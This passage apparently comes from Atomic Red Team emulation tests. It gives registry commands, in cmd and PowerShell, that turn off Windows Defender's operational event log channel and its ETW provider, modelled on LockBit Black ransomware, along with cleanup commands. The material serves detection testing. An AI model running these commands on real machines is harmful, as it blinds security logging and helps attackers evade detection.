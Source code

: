 #### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\WINEVT\Channels\Microsoft-Windows-Windows Defender/Operational" /v Enabled /t REG_DWORD /d 0 /f
```

#### Cleanup Commands:

```cmd
reg delete "HKLM\Software\Microsoft\Windows\CurrentVersion\WINEVT\Channels\Microsoft-Windows-Windows Defender/Operational" /v Enabled /f >nul 2>&1
```

<br/>
<br/>

## Atomic Test #9 - LockBit Black - Disable the ETW Provider of Windows Defender -Powershell

An adversary can disable the ETW Provider of Windows Defender,
so nothing would be logged to Microsoft-Windows-Windows-Defender/Operational anymore.
https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-075a

**Supported Platforms:** Windows

**auto_generated_guid:** 69fc085b-5444-4879-8002-b24c8e1a3e02

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
New-ItemProperty "HKLM:\Software\Microsoft\Windows\CurrentVersion\WINEVT\Channels\Microsoft-Windows-Windows Defender/Operational" -Name Enabled  -PropertyType DWord -Value 0 -Force
```

#### Cleanup Commands:

```powershell
Remove-ItemProperty "HKLM:\Software\Microsoft\Windows\CurrentVersion\WINEVT\Channels\Microsoft-Windows-Windows Defender/Operational" -Name Enabled -Force -ErrorAction Ignore
```

<br/>
